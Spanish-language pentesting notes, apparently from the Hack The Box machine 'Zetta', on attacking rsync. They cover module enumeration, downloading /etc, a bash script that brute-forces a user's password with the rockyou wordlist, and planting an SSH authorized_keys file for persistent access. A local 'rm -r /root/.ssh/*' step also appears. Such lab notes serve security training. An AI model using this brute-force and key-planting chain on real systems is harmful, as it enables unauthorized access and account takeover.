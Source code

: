 
### PROBAR CONECTIVIDAD
```shell
# En este caso se hara por Ipv6, es un poco mas complejo pero contemplaremos las dos formas.
[IPV6]
❯ sudo vi /etc/hosts
11   │ dead:beef::57a:71c:23:77a zetta.htb
❯ rsync rsync://zetta.htb:8730 --> En este caso es el 8730 en vez del 873

[IPV4]
❯ rsync rsync://0.0.0.0:8730 --> En este caso es el 8730 en vez del 873
```

### CONECTAR A UN DIRECTORIO
```shell
❯ rsync rsync://zetta.htb:8730/FOLDER
	#PUEDE HABER DIRECTORIOS OCULTOS, NO HACER CASO A LOS QUE SALEN, PROBARLO TODO
```

### DESCARGAR CONTENIDO DE UN DIRECTORIO
```shell
❯ rsync -r rsync://zetta.htb:8730/etc .
```

### ARCHIVO DE CONFIGURACIÓN
```shell
/etc/rsyncd.conf
```

**RSYNC BRUTEFORCE CREDS**
```bash
#!/bin/bash
function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    tput cnorm; exit 1
}
# Ctrl+C
trap ctrl_c INT
tput civis
for password in $(cat /usr/share/wordlists/rockyou.txt); do
    sshpass -p "$password" rsync -r rsync://roy@zetta.htb:8730/home_roy &>/dev/null
    if [ "$(echo $?)" == "0" ]; then
        echo -e "\n[+] La password correcta es $password"
        tput cnorm; exit 0
    fi
done
tput cnorm
```

### DESCARGARSE CONTENIDO DE UN DIRECTORIO CON CREDENCIALES
```shell
❯ sshpass -p "computer" rsync -r rsync://roy@zetta.htb:8730/home_roy .
```

### CREAR CLAVE SSH
```shell
#CREACIÓN DE LAS CLAVES
❯ mkdir .ssh
❯ cd .ssh
❯ sudo rm -r /root/.ssh/*
❯ sudo ssh-keygen
	Enter file in which to save the key (/root/.ssh/id_rsa): 
	Enter passphrase (empty for no passphrase): 
	Enter same passphrase again: 
❯ sudo cat /root/.ssh/id_rsa.pub > authorized_keys

[CARGAR LAS CLAVES.]
❯ sshpass -p "computer" rsync -r .ssh rsync://roy@zetta.htb:8730/home_roy
❯ ssh roy@10.10.10.156
```
